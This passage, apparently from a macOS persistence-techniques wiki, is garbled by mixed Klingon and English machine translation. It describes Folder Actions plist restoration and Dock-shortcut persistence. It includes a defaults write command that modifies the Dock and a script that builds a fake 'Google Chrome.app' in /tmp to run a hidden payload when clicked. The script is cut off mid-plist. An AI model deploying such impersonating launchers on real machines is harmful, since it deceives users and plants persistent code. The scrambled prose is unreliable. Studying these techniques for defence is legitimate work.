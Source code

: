 ngoD, **empty** **environment**

3. **'opnIS** **backup** **file**: `cp /tmp/com.apple.FolderActionsDispatcher.plist ~/Library/Preferences/`
4. **'opnIS** **Folder Actions Setup.app** **consume** **config**: `open "/System/Library/CoreServices/Applications/Folder Actions Setup.app/"`

{% hint style="danger" %}
'ej **jImej** **vItlhutlh**, 'ach **'oH** **instructions** **writeup**:
{% endhint %}

### Dock shortcuts

Writeup: [https://theevilbit.github.io/beyond/beyond\_0027/](https://theevilbit.github.io/beyond/beyond\_0027/)

* **sandbox** **bypass**: [✅](https://emojipedia.org/check-mark-button)
* **malicious application** **installed** **system**
* **TCC bypass**: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* **`~/Library/Preferences/com.apple.dock.plist`**
* **Trigger**: **user** **clicks** **app** **dock**

#### Description & Exploitation

**applications** **appear** **Dock** **specified** **plist**: **`~/Library/Preferences/com.apple.dock.plist`**

**add application**:

{% code overflow="wrap" %}
```bash
# Add /System/Applications/Books.app
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/System/Applications/Books.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'

# Restart Dock
killall Dock
```
{% endcode %}

**Social engineering** vItlhutlh **ghaH** **Google Chrome** jatlh 'ej **dock** vItlhutlh 'ej **script** vItlhutlh.
```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
echo '#!/bin/sh
open /Applications/Google\ Chrome.app/ &
touch /tmp/ImGoogleChrome' > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
```